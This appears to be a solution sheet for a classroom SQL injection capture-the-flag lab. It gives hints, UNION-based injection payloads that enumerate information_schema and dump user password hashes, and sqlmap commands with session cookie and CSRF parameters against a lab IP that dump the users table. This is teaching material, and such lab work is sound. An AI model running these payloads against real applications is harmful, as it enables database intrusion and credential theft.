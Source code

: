 # SQL injection challenge for Bloom's Taxonomy Level: Analyzing

**hints**
1. User sensitive data is stored in column which name contains 'pass'
1. There is default database table called 'information_schema' where you can find all the information about other databases and its tables.
1. Inside information_schema here is table called 'COLUMNS'. The user can find necessary info from that table
1. Inside table 'COLUMNS' there are columns TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME
1. The user can write sql query and apply all info in one query. After finding databse name, table name, column name just one more query remains till victory.

**Query #1, to output necessarry info**
```sql
' UNION ALL SELECT 1, TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME FROM information_schema.COLUMNS WHERE COLUMN_NAME LIKE '%pass%' #'
```
**Query #2, to output hash flag**
```sql
' UNION ALL SELECT 1, users.pass, users.user, 3 FROM bikodua_level_apply.users #'
```
*Note: databse name will be unique for each user. So, in this query above db name needs to be replaced*

**It is possible to use SQLMap**

- At first a student needs to install SQLmap
```bash
sudo apt-get install sqlmap
#password is student
```
- Then run this script below
```bash
sqlmap --url="http://192.168.8.254/home/ajax" --data="search=h&csrf=F3qt5W6L8TaIwncZSTApFG4qw4dQraHO&action=search" --cookie="PHPSESSID=ecej4q1orlkvspf48ut81fl57v" --csrf-token="csrf" --csrf-url="http://192.168.8.254" --dbms=mysql --dbs --batch
```
**PHPSESSID** needs to be replaced to current active(Signed in) session ID and all the other parameters are fine

- After showing DB name find proper one and run another command
```bash
sqlmap --url="http://192.168.8.254/home/ajax" --data="search=h&csrf=F3qt5W6L8TaIwncZSTApFG4qw4dQraHO&action=search" --cookie="PHPSESSID=ecej4q1orlkvspf48ut81fl57v" --csrf-token="csrf" --csrf-url="http://192.168.8.254" --dbms=mysql --batch -D bikodua_level_apply --tables
```
- then command below and it will output all user data where we can find our desired hash flag
```bash
sqlmap --url="http://192.168.8.254/home/ajax" --data="search=h&csrf=F3qt5W6L8TaIwncZSTApFG4qw4dQraHO&action=search" --cookie="PHPSESSID=ecej4q1orlkvspf48ut81fl57v" --csrf-token="csrf" --csrf-url="http://192.168.8.254" --dbms=mysql --batch -D bikodua_level_apply -T users --dump
```